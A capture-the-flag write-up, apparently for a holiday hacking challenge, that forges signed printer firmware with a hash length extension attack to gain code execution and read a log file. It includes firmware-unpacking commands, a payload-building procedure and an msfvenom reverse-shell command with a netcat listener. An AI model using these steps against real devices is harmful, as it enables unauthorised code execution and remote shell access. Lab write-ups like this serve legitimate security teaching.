




# Printer Exploitation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [printer website](https://printer.kringlecastle.com/)<br/>
**Terminal hint**: -


## Objective

!!! question "Request"
    Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

??? quote "Ruby Cyster"
    So first things first, you should definitely take a look at the firmware.<br/>
    With that in-hand, you can pick it apart and see what's there.<br/>
    Did you know that if you append multiple files of that type, the last one is processed?<br/>
    Have you heard of [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)?<br/>
    If something isn't working, be sure to check the output! The error messages are very verbose.<br/>
    Everything else accomplished, you just might be able to get shell access to that dusty old thing!


## Hints

??? hint "Dropping Files"
    Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).

??? hint "Hash Extension Attacks"
    [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.

??? hint "Printer Firmware"
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.


## Solution

### Reverse the firmware

We first need to understand what a firmware file looks like. So, download the [current firmware](../artifacts/objectives/o7/firmware-export.json) from the [printer website](https://printer.kringlecastle.com), copy out the data in the JSON file's `firmware` field, Base64 decode the data, and save it to its own `firmware-export.bin` file (line 1).  The `file` command tells us we're working with a ZIP file (line 2). Unpacking the archive reveals a `firmware.bin` executable (lines 3-4).

??? info "Parsing JSON data in the command line"
    [`jq`](https://stedolan.github.io/jq/) is a handy command line JSON processor. You can use it to slice, filter, and transform structured JSON data with the same ease that tools like `sed`, `awk`, and `grep` let you manipulate text. `jq` isn't a requirement for this challenge, but it helps to turn the whole extraction process into an easy-to-use one-liner.

```shell linenums="1" title="Extracting the firmware"
cat firmware-export.json | jq -r '.firmware' | base64 -D > firmware-export.bin
file firmware-export.bin  # indicates this is a ZIP file
mv firmware-export.bin firmware-export.zip  # rename for clarity
unzip firmware-export.zip  # unpack archive
file firmware.bin  # indicates this is a 64-bit ELF binary
```

To create a valid firmware file we simply reverse the steps described above. Create an executable called `firmware.bin`, compress the file, and copy the Base64 encoded archive data to the `firmware` field in the JSON file. The last step is to add a valid signature to the JSON file, but unfortunately we're missing the necessary secret key to create that signature.


### Ensuring signature validation

When uploading a firmware file, the printer will validate the uploaded signature by calculating a new signature value using a secret key only it knows. If the calculated signature matches the value in the uploaded JSON file, the firmware is considered valid and the printer will execute the enclosed `firmware.bin` file. If the signature is invalid, we get the following error.

{ class=border }

Building a new firmware file means we also need a new signature, but how do we do that without the secret key? That question is answererd by the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) hint, which also provides a handy [Hash Extender](https://github.com/iagox86/hash_extender) tool to automate the attack! :partying_face:

!!! quote "blog.skullsecurity.org"
    An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.

    It turns out, Even though the attacker doesn't know the value of the prepended secret, he can still generate a valid hash for *{secret || data || attacker_controlled_data}*! This is done by simply picking up where the hashing algorithm left off; it turns out, 100% of the state needed to continue a hash is in the output of most hashing algorithms! We simply load that state into the appropriate hash structure and continue hashing.

Since we're appending our payload to valid firmware data in order to execute the Hash Extension attack, we also don't need to worry about which of the 2 ZIP archives will be unpacked. Ruby Cister notes that *"if you append multiple files of that type, the last one is processed"*, which ensures our `firmware.bin` will be extracted and executed by the printer after successful validation.


### Creating the payload

For the payload we can keep it simple by using a [shell script](../tools/objectives/o7/payload-script.sh) or [binary](../tools/objectives/o7/payload-c.c) that copies `/var/spool/printer.log` to `/app/lib/public/incoming`, making it accessible from `https://printer.kringlecastle.com/incoming/`. Name the payload `firmware.bin`, make it executable using `chmod +x firmware.bin`, and compress the file using `zip payload-script.zip firmware.bin`.

We now have the original [`firmware-export.zip`](../artifacts/objectives/o7/firmware-export.zip) we extracted previously and our own [`payload-script.zip`](../tools/objectives/o7/payload-script.zip), which we both use as input for [Hash Extender](https://github.com/iagox86/hash_extender) to create the final combined payload and valid signature.

??? info "Compiling Hash Extender"
    The [Hash Extender](https://github.com/iagox86/hash_extender) C code first needs to be compiled into a binary before we can use it. Clone the [Hash Extender repository](https://github.com/iagox86/hash_extender), change into the `hash_extender` directory using `cd hash_extender`, and finally run `make` to compile the project into a single `hash_extender` binary.



The [`xxd`](https://linux.die.net/man/1/xxd) command will create a hex dump of our `payload-script.zip` file and `xargs` will then take that data and make it available to `hash_extender` as `append_data`. As an alternative to these commands you could also [update the source code](../tools/objectives/o7/hash_extender-append-file-fix.c) to support an `--append-file` parameter that takes a filename as input instead of the raw data. Using `--output-data-format fancy | head -n -3 | tail -n +5 | xxd -r | base64` we can extract the hex data from the output, convert it to binary, and Base64 encode it.


### Putting it all together

Use the new signature and Base64 data from the previous step to create a new [`firmware-payload-script.json`](../tools/objectives/o7/firmware-payload-script.json) file and upload it to the printer. Once the upload finishes the printer will validate the JSON, decode the enclosed Base64 data, validate the signature, unpack the last archive which contains our payload, and execute our `firmware.bin` shell script which copies `/var/spool/printer.log` to `/app/lib/public/incoming/crahan_printer.log`. We can now download the printer log file from `https://printer.kringlecastle.com/incoming/crahan_printer_new.log`.

{ class=border }

!!! done "Answer"
    `Troll_Pay_Chart.xlsx`

!!! note "Reverse shell<span id="reverse-shell"></span>"
    The example above uses a very simple payload to copy the file we need to a location we can access it from, but you can also solve this challenge by using a reverse shell as the payload. Only the payload creation part is different. All other steps remain exactly the same as outlined above.
    
    Create a simple reverse TCP shell payload using [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) by running `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=9085 -f elf > firmware.bin`. Next, set up a listener using `nc -lvp 9085` that will accept the incoming reverse shell connection. Finally, upload the new firmware file and watch the connection be established.

    In [`/app/lib/app.rb`](../artifacts/objectives/o7/app.rb) you'll find the *mybigsigningkey!* secret key which is used by the printer to validate the firmware signature. In `/var/spool/` there's a [`birdknob.png`](../artifacts/objectives/o7/birdknob.png) picture of a... bird on a doorknob, and you can also leave [a note](https://twitter.com/joeammond/status/1470176441392418816) on the host for other players to find.

    
